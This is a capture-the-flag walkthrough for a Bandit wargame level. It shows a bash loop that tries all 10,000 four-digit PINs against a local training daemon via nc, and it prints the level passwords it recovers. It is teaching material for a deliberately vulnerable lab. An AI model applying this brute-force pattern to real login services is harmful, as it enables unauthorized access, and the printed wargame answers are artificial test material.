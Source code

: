 # Bandit Level 24 -> Level 25

A daemon is listening on port `30002` and will give you the password for `bandit25` if given the password for `bandit24` and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

# What is a `daemon`?

In multitasking computer operating systems, a `daemon` is a computer program that runs as a background process, rather than being under the direct control of an interactive user.

# Program being executed at port `30002`

```console
bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.


bandit24@bandit:~$ echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 1 | nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct pincode. Try again.
Timeout. Exiting.
```

# Script (.sh) to run

To generate a sequence of numbers from 0000 to 9999 (4 digit combinations), 2 possible methods

1. Use Bash's Brace Expansion

   Supplied integers may be prefixed with 0 to force each term to have the same width. When either x or y begins with a zero, the shell attempts to force all generated terms to contain the same number of digits, zero-padding where necessary.

   https://unix.stackexchange.com/a/60259

```console
$ echo {08..10}
08 09 10
```

1. Use `seq` command to print a sequence of numbers with the `-w` option (for equalizing width by padding with leading zeroes)

## Script

```console
#!/bin/bash

for i in {0000..9999}
do
    echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i
done
```

# Command

```console
bandit24@bandit:~$ mkdir /tmp/lvl24
bandit24@bandit:~$ cd /tmp/lvl24
bandit24@bandit:/tmp/lvl24$ vim script.sh
bandit24@bandit:/tmp/lvl24$ cat script.sh
#!/bin/bash

for i in {0000..9999}
do
    echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i
done

bandit24@bandit:/tmp/lvl24$ ls -l
total 4
-rw-r--r-- 1 bandit24 root 88 Jun 17 11:15 script.sh
bandit24@bandit:/tmp/lvl24$ chmod u+x script.sh
bandit24@bandit:/tmp/lvl24$ ls -l
total 4
-rwxr--r-- 1 bandit24 root 88 Jun 17 11:15 script.sh

bandit24@bandit:/tmp/lvl24$ ./script.sh | nc localhost 30002
...
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

Exiting.
```

# PASSWORD

uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
